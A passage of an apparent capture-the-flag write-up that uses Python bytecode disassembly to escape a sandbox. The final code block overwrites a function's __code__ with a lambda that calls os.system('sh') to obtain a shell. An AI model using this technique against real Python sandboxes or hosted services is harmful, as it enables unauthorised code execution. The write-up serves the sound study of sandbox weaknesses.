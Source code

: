 After experimenting with tuple unpacking,[^tuples] we observe that the following code is fairly interesting:

```
>>> dis.dis(compile("""x = (y, z)""", "", "exec"))
  1           0 LOAD_NAME                0 (y)
              2 LOAD_NAME                1 (z)
              4 BUILD_TUPLE              2
              6 STORE_NAME               2 (x)
              8 LOAD_CONST               0 (None)
             10 RETURN_VALUE
```

More specifically, `BUILD_TUPLE(2)` takes the topmost 2 elements from the stack, and puts them into a tuple.
If we now would happen to have not `z`, but `"<lambda>"` and a code object on the stack, poor `y` would get ignored, and we'd get a way more interesting tuple instead:

```
>>> dis.dis(compile("""x = (0, lambda: None)""", "", "exec"))
  1           0 LOAD_CONST               0 (0)
              2 LOAD_CONST               1 (<code object <lambda> at 0x7fb5838858f0, file "", line 1>)
              4 LOAD_CONST               2 ('<lambda>')
              6 MAKE_FUNCTION            0
              8 BUILD_TUPLE              2
             10 STORE_NAME               0 (x)
             12 LOAD_CONST               3 (None)
             14 RETURN_VALUE

Disassembly of <code object <lambda> at 0x7fb5838858f0, file "", line 1>:
  1           0 LOAD_CONST               0 (None)
              2 RETURN_VALUE
```

Simply access this tuple at index 0, and we have reached our destination.

## Flagging a dead horse

It's only a matter of putting everything together from here on out.
We want to:

- Create a code object that gives us a shell
- Assign it to `gift.__code__` by calling `gift`
- Call the all new and improved `gift` again to get our sweet shell

So, let's do exactly that.

```python
# step 1
c = (0, lambda: __import__('os').system('sh'))[0]

# step 2
gift.x = gift
gift.x(gift, "__code__", c)

# step 3
gift.x()
```


[^docs]: It's really hard to decide what's more the MVP here, the `dis` module, or its documentation that contains an overview of all these juicy instructions.
[^tuples]: And completely missing the fact that python optimizes out the tuple packing and unpacking if we have 2 items on both sides of the `=`. Rather than packing, unpacking and crashing because the number of elements isn't right, `x,y = 0, lambda: None` simply gets compiled to a few `LOAD`s, a `ROT` and two `STORE`s. An even quicker solution than what we end up doing next.